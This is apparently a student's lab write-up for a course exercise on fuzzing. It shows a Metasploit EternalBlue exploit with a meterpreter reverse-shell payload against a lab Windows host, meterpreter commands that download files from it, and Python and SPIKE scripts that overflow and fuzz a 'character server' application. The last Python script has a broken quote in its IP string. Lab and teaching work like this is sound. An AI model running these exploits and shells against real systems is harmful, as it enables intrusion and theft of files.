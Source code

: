 # MOD2L13 Exercises

## Walkthrough

### Copy files from Win7 to Kali

```bash
msfdb init
msfconsole
```  

```metasploit
use exploit/windows/smb/ms17_010_eternalblue
set LHOST 192.168.229.30
set RHOST 192.168.229.13
set smbuser Student
use payload windows/x64/meterpreter/reverse_tcp
exploit
```

```meterpreter
cd ..
cd ..
cd users
cd student
cd "character server"
download libmingwex-0.dll /tmp/character
download character_server.exe /tmp/character
download character_actions.dll /tmp/character
```

### Simple Buffer Overflow Tool

```python
#! /usr/bin/env python3

import socket

ip='192.168.229.13'
port=31337
buff = 'NICK ' + 'A'*10000

print(buff)

with socket.socket() as fuzz:
    fuzz.connect((ip,port))
    fuzz.send(bytes(buff,'latin-1'))
```

### NICK.spk script

```spike
s_readline();
s_string("NICK ");
s_string_variable("A")
```

`generic_send_tcp 192.168.229.13 31337 nick.spk 0 0`

## Module 2, Lesson 13 – Simple Fuzzer

1. Identify the port(s) open in the application.  
    * "c:\users\student\desktop\character server\character_server.exe" - produces "If no port number is provided, the default port of 31337 will be used"  
    ![Listening Ports](/CTE-2103/Files/Images/Exercise13/characterports.png)  
2. Identify potential commands/functions that may be susceptible to buffer overflow.  
![Possible Points of entry](/CTE-2103/Files/Images/Exercise13/commands.png)
3. Attempt to “manually fuzz” at least one of the commands.
    * CLASS was able to take 3200 bytes of data  
    ![CLASS Overflow](/CTE-2103/Files/Images/Exercise13/class.png)
    * ROLL seems to crash between 40 and 80 bytes  
    ![ROLL Overflow](/CTE-2103/Files/Images/Exercise13/roll.png)
4. Create a simple script in Python that can send larger amounts of data to the socket identified.
    * [My Simple Script](#simple-buffer-overflow-tool)
    * I changed it to point to CLASS and added 2 more zeros.
5. CHALLENGE: The above steps were all covered in the presentation. Now, you must build a Python script that will systematically increase the number of characters sent to a command until the application crashes (i.e., It will send NICK AAAAA then NICK AAAAAAAAAA etc.). When the program crashes, you must be able to identify this. Also, note that the “NICK” command is just one of several vulnerable commands.

```python
#! /usr/bin/env python3

import socket
import select
import time

ip = 192.168.229.13'
port = 31337
i=0

conn = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
conn.connect((ip,port))
time.sleep(3)

while True:
    i = i+1
    buff = "NICK "+"A"*i
    try:
        ready_to_read, ready_to_write, in_error = select.select([conn],[conn],[],1)
    except select.error:
        conn.shutdown(2)
        conn.close()
        print("Connection Closed")
        break
    if len(ready_to_read)>0:
        recv = conn.recv(2048)
        if len(recv)>0:
            print(recv)
        else:
            break
    else:
        print("No Conection")
        break
    if len(ready_to_write)>0:
        conn.send(bytes(buff,'latin-1'))
        print(i)
        print(buff)
        time.sleep(.1)

```
